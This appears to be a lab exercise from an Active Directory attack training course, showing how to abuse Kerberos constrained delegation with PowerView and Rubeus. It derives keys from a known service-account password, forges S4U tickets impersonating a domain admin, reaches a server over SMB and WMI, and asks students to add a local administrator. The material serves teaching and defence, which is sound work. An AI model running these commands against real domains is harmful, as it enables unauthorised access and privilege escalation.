 # Exercise 5 - Kerberos Classic Delegation

## Tools

You can find all tools needed in the ["attacker-tools.zip"-file](../exercises/attacker-tools). The links below are for your own reference.

Tools needed:

- PowerView: [https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
- Rubeus: [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)

## Exercise

In this exercise, we'll abuse the constrained delegation permission of the user "taskservice" to get access to adsec-01. 

Open powershell with admin rights (right-click "Run as Administrator") and load rubeus/powerview.

```
cd C:\attacker-tools
cat -raw .\PowerView.ps1 | iex
cat -raw .\Invoke-Rubeus.ps1 | iex
```

Find users that are enabled for constrained delegation.

```
Get-DomainUser -TrustedToAuth
```

Show the allowed delegation targets.

```
Get-DomainUser -TrustedToAuth | select -ExpandProperty msds-allowedtodelegateto
```

Luckily, we know the password of user taskservice. First, we generate the AES keys, which we need in the next steps.

```
Invoke-Rubeus -Command "hash /password:Amsterdam2015 /domain:contoso.com /user:taskservice"
```

Rubeus allows us to start powershell in a new logon session. This implies that the tickets we forge only exist in this logon session and do not interfere with the already existing kerboers tickets of user john. 

```
Invoke-Rubeus -Command "createnetonly /program:C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe /show"
```

Remember, execute the commands below in the powershell you just started with rubeus!

```
cd C:\attacker-tools
cat -raw .\Invoke-Rubeus.ps1 | iex
```

First, we use s4u to request a TGS impersonating the domain admin user "Bruce Willis" (bwillis) against adsec-01. We request 3 tickets for 3 different services. "CIFS" will be used for SMB access and "HOST"/"RPCSS" are needed for WMI.

```
Invoke-Rubeus -Command "s4u /user:taskservice /aes256:390F5466C4FCCB8A04955838C3890D067050B3035886ED97D8D96912E8E70C01 /impersonateuser:bwillis /msdsspn:cifs/adsec-01.contoso.com /ptt"
Invoke-Rubeus -Command "s4u /user:taskservice /aes256:390F5466C4FCCB8A04955838C3890D067050B3035886ED97D8D96912E8E70C01 /impersonateuser:bwillis /msdsspn:host/adsec-01.contoso.com /ptt"
Invoke-Rubeus -Command "s4u /user:taskservice /aes256:390F5466C4FCCB8A04955838C3890D067050B3035886ED97D8D96912E8E70C01 /impersonateuser:bwillis /msdsspn:rpcss/adsec-01.contoso.com /ptt"
```

Have a look at the kerberos tickets you just created by running klist.

```
klist
```

Let's see if that worked. Try to access the server through SMB.

```
ls \\adsec-01.contoso.com\C$
```

Now try to access the server through WMI. Note: the command below queries the WMI class win32_process, which basically means: list all running processes. This is similar to running "ps" in a terminal.

```
Get-WmiObject -Class win32_process -ComputerName adsec-01.contoso.com
```


# Questions
- In the exercise above, you acquired read access on the server adsec-01 through SMB and WMI. Now try to get code execution through these two protocols. The goal is to execute the following command, which will add the user john to the local admin group:
    - "net localgroup Administrators john /ADD"
- Demonstrate a way to achieve this with SMB as well as with WMI. `Hint:` we already used a tool for remote management that relies on SMB in the PTH exercise and Powershell contains a native command for invoking WMI methods.
- Try to impersonate the domain admin user "Chuck Norris" instead of "Bruce Willis". Does it work? Explain why.
